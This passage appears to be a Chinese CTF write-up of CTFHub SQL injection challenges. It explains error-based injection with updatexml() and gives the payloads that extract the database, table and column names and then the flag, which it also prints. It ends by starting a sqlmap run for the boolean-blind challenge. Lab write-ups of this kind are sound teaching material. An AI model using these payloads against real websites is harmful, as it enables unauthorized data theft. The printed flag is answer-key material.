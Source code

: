 **某些网站为了方便开发者调试会开启错误调试信息，只要此时触发SQL语句的错误就能在页面上看到SQL语句执行后的报错信息，这种攻击方式被称为报错注入。**

输入1试试？输入1后只有一行回显：查询正确。

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/报错注入/1.png)

通过查阅相关文档可知`updatexml()`在执行时，第二个参数应该是合法的XPATH路径，否则将会在引发报错的同时将传入的参数进行输出。`database()`回显当前连接的数据库，输入以下代码可以查询到当前数据库：

```sql
1 and (updatexml(1,concat(0x7e,(database()),0x7e),1))
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/报错注入/2.png)

`group_concat()`把产生的同一分组中的值用`,`连接并形成一个字符串，`information_schema.tables`存了`mysql`所有的表，`table_schema`是表对应的数据库名的字段，`table_name`和`table_schema`相对应，输入以下代码能够查询到指定数据库的表信息：

```sql
1 union select updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='sqli'),0x7e),1)
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/报错注入/3.png)

`information_schema.columns`存了表中所有列的信息，`table_name`和`table_schema`相对应，上图查询到有个表叫`flag`，我们可以去查询该表的列信息：

```sql
1 union select updatexml(1,concat(0x7e, (select group_concat(column_name) from information_schema.columns where table_name='flag')  ,0x7e),1)
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/报错注入/4.png)

最后输入以下代码根据`flag`字段可以查询到该字段的数据：

```sql
1 union select updatexml(1,concat(0x7e, (select group_concat(flag) from sqli.flag)  ,0x7e),1)
```

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/报错注入/5.png)

提交`ctfhub{ce93ca39df4e9cbeee0c79c5}`即可。

![](https://paper.tanyaodan.com/CTFHub/Web/SQL注入/报错注入/6.png)

------

#### 布尔盲注

这道题如果真的盲注的话会很费劲，直接启动`Kali-Linux`用`sqlmap`爆破就完事啦。

爆破出当前数据库的名字。

```sql
sqlmap -u "http://challenge-68c4a9c7f10ce011.sandbox.ctfhub.com:10800/?id=1" --current-db
#可以得到如下有用的结果信息(简洁版)
current database: 'sqli'
```

